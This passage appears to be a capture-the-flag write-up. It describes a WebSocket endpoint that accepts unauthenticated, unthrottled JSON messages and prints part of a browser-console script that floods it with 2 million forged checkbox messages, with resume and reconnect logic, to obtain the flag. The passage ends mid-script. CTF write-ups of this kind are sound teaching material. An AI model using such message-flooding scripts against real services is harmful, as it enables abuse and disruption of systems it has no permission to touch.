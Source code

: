 This means: you didn’t have to click UI checkboxes, you only needed to send the right messages. The WebSocket accepted raw JSON messages with no authentication, rate-limiting, or replay protection and anyone could: **Connect directly, Forge messages or even Automate the interaction**

We scripted (by vibe-coding) a solution in the browser’s console that:

![image](https://github.com/user-attachments/assets/fee821f5-009f-4c10-833b-5407491694ad)

- Sent batches of 20,000 checkbox indices
- Used localStorage to track progress
- Automatically resumed if interrupted
- After sending all 2 million, the server would respond with the flag or set it in window.SERVER_FLAG

```js
let ws;
let index = parseInt(localStorage.getItem("progress") || "0", 10);
const total = 2_000_000;
const batchSize = 20000;
const delay = 250;
let reconnectAttempts = 0;

function connectWebSocket() {
  ws = new WebSocket("ws://" + window.location.host + "/ws");

  ws.onopen = () => {
    console.log(`✅ Connected. Resuming at index ${index}`);
    reconnectAttempts = 0;
    sendNextBatch();
  };

  ws.onmessage = (event) => {
    try {
      const data = JSON.parse(event.data);
      if (data.flag) {
        console.log("🎉 FLAG:", data.flag);
        alert("🎉 FLAG: " + data.flag);
      } else {
        console.log("📩 Server response:", data);
      }
    } catch (e) {
      console.warn("⚠️ Non-JSON message:", event.data);
    }
  };

  ws.onclose = () => {
    console.warn("❌ WebSocket closed. Reconnecting...");
    reconnectAttempts++;
    const backoff = Math.min(2000 * reconnectAttempts, 10000);
    setTimeout(connectWebSocket, backoff);
  };

  ws.onerror = (err) => {
    console.error("🚨 WebSocket error:", err);
    ws.close();
  };
}

function sendNextBatch() {
  if (ws.readyState !== WebSocket.OPEN) {
    console.warn("⚠️ WebSocket not open. Skipping batch.");
    return;
  }

  if (index >= total) {
```